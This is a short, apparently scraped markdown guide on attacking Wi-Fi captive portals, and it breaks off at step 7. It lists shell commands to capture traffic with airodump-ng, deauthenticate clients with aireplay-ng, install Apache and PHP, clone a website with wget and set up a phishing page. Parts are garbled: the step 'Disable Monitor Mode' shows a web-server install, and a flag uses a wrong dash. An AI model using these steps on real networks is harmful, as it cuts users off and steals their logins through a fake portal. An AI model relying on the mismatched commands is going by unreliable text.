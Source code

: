 ## Attacking Captive Portals

This guide provides step-by-step instructions for setting up a wireless network monitoring and attack environment.

### 1. Set Interface to Monitor Mode

Begin by capturing information about clients and access points (APs) around you:

```bash
sudo airodump-ng wlan0mon
```

### 2. Adjust the Capture

To specify the capture details, use:

```bash
sudo airodump-ng -w fileName –output-format pcap -c channelnumber interface
```

### 3. De-authenticate Connected Devices

Wait until the WPA handshake is captured:

```bash
sudo aireplay-ng -0 amountOfdeauths -a ApBSSID interface
```

### 4. Disable Monitor Mode

After completing the capture, disable monitor mode:

```bash
sudo apt install apache2 libapache2-mod-php
```

### 5. Download the Example Page

Use `wget` to download the webpage. Here, `-l2` means to go 2 levels deep:

```bash
wget -r -l2 https://www.website.com
```

### 6. Prepare the Web Directory

Create a directory for the phishing webpage:

```bash
sudo mkdir /var/www/html/portal && sudo mousepad /var/www/html/portal/index.php
```

### 7. Replicate the Website's Style

Replicate the styling of the example website page and copy the assets:
